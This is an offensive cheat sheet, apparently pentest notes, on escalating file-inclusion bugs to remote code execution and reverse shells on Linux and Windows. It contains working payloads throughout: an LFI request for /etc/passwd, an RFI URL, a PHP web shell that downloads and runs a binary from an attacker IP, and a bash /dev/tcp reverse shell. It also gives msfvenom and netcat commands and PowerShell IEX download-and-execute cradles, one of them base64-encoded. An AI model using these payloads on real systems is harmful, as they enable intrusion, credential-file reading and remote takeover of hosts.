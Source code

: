 # from LFI/RFI to RCE to Shell

## Linux

 /admin.php?ACS_path=/etc/passwd

  /admin.php?ASC_path=http://10.x.x.x/rce.php?cmd=id


  rce.php -->

 ```php
 <?php
   echo "test"; 
   print("test"); 
   system("ls"); 
   eval("id");
   print($_GET["cmd"]);

   //msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.x.x.x LPORT=443 -f elf > rshellbinary
   system("wget http://10.x.x.x/shellbinary -O /tmp/shellbinary");
   system("chmod +x /tmp/shellbinary");
   system("file /tmp/shellbinary");
   system("/tmp/shellbinary");
  ?>
 ```

 ```
 <?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.139/8888 0>&1'); ?>
 ```


```
 
 ```



 ## on Windows

 python -m SimpleHTTPServer 80
 nishang/shells/Invoke-PowerShellTcp.ps1 --> `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.x.x -Port 443` at end of file


 nc -nlvp  443

 ```cmd
 PS 5.1: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 PS 5.1: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe


 c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe -command "& IEX(New-Object Net.WebClient).downloadString(\"http://10.10.x.x/Invoke-PowerShellTcp.ps1\")"'
 ```

```
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADcANwAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAuAHAAcwAxACIAKQAKAA==
```
```
echo "IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.77/Invoke-PowerShellTcp.ps1\")" | iconv --to-code UTF-16LE | base64 -w 0
```

tags: #rce #reverse_shell #lfi #rfi #powershell #rce2shell 
